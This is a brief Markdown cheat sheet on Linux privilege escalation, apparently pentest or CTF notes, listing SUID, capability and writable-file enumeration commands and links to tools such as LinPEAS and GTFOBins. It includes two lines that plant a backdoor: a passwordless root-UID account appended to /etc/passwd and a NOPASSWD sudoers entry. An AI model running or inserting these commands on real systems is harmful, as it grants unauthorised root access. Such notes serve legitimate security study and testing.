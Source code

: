 # Privilege Escalation

## Linux
- `getcap -r / 2>/dev/null`<br>
- `find / -perm -u=s -type f 2>/dev/null`<br>
    - Harden: `chmod u-s /usr/bin/find`<br>
- `find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`<br>
- `find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`<br>
- `sudo -V` to check sudo version, which might be vulnerable.<br>
- `echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`<br>
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`<br>
- `groups`<br>
    - `docker` (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
- `find / -type f -executable -group users 2>/dev/null`
    - To find a file that can be executed by a specific group.

https://gtfobins.github.io/<br>
<hr>

### Basic Linux enumeration
https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet

+ linpeas.sh<br>

**Get Privilege Escalation vectors:**<br>
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS<br>
- LinEnum: https://github.com/rebootuser/LinEnum<br>
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
- Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

## Windows
